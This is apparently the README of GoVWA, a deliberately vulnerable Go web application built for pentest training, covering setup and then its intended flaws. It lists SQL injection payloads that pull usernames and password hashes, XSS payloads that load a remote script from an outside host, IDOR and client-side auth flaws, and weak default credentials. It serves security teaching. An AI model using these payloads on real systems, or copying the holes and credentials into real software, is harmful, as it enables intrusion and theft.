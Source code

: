 # GoVWA

GoVWA (Go Vulnerable Web Application) is a web application developed to help the pentester and programmers to learn the vulnerabilities that often occur in web applications which is developed using golang. Vulnerabilities that exist in GoVWA are the most common vulnerabilities found in web applications today. So it will help programmers recognize vulnerabilities before they happen to their application. Govwa can also be an additional application of your pentest lab for learning and teaching.

This was formerly known as <https://github.com/0c34/govwa>, package name
`govwa`, however this doesn't sit well with how Go code is commonly
organised, therefore it was renamed here to
`github.com/ShiftLeftSecurity/Helloshiftleft-internal/helloshiftleftgo`,  
which is also where we store it on GitHub.

# How To Install GoVWA

## Dependencies

- Golang
- MySQL

Set up MySQL as you like, e.g. with MySQL 8 something like this might suffice to have a working account for GoVWA to use:

```
USE mysql;
CREATE USER 'govwa@'localhost' IDENTIFIED BY 'password';
GRANT ALL ON *.* TO 'govwa@'localhost';
FLUSH PRIVILEGES;
```

If successfully installed you would have a directory `go` in your home directory. That directory has three subdirectories (`bin`, `pgk`, `src`). This project should be cloned into `src/github.com/ShiftLeftSecurity/Helloshiftleft-internal`.

Using Go modules dependency resolution should be automatic, simply `GO111MODULE=on go build` should take care of updating the dependencies for you.

Otherwise run the following to install the remaining Go dependencies:

```
go get github.com/go-sql-driver/mysql
go get github.com/gorilla/sessions
go get github.com/julienschmidt/httprouter
```

## GoVWA config

Open the file `./confic/config.json` and update the relevant fields (probably `username` + `password`) according to your mysql installation. You will most likely also want to add a new database with `create database govwa`.

## Run GoVWA

`go run app.go`

Open `http://192.168.56.101:8082/` to access GoVWA and follow the setup instructions to create database and tables

GoVWA users:

|uname|password|
|-----|--------|
|admin|govwaadmin|
|user1|govwauser1|

# Exploits

1. SQLi 1 (`/sqli1`):

User input through cookie `Uid`. Injects user input into WHERE clause of SELECT statement.
Exemplary vector: `1 UNION SELECT 1, uname, pass, 4 FROM Users`

This gets the username and password hash of a given user from the DB.

2. SQLi 2 (`/sqli2`):

User input through url parameter `uid`. Injects user input into the same statement as 1.
Exemplary vector: `1 UNION SELECT 1, uname, pass, 4 FROM Users`

This gets the username and password hash of a given user from the DB.

Also: It is possible to extract other user's information by changing the uid.

3. XSS 1 (`/xss1`):

User input through search term input field. Any input given is rendered into a `<b>` tag without sanitation and therefore executed.
Example: `<SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>`

Can also be used with POST.

4. XSS 2 (`/xss2`):

The url parameter `uid` is parsed into a script tag as part of an assignment. One can therefore call functions for example.
Example: `$.getScript("http://xss.rocks/xss.js")`

It is again possible to extract other user's info by changing the uid.

5. IDOR 1 (`/idor1`):

The form parameter `uid` can be used to alter profiles of other users. As long as the cookie `Uid` and the form field `uid` match the request is taken care of and changes are written to the db.

6. IDOR 2 (`/idor2`):

The vulnerability is the same as in `/idor1` but with and added "security" feature. One has to send the MD5 hash of the given uid in order to be allowed to write to other user's profiles.

Disclaimer: The code behaves somewhat weird by breaking if you change the number of characters in `name` or `city` without adding/removing the same amount of characters in `number`.

7. CSA (`/csa`):

No real functionality. Except a green/red bar popping up depending on the response from the backend. If you use a proxy to tamper with the response you get a green bar regardless of your input.

The correct OTP is a value that has the MD5 hash of `a587cd6bf1e49d2c3928d1f8b86f248b`.
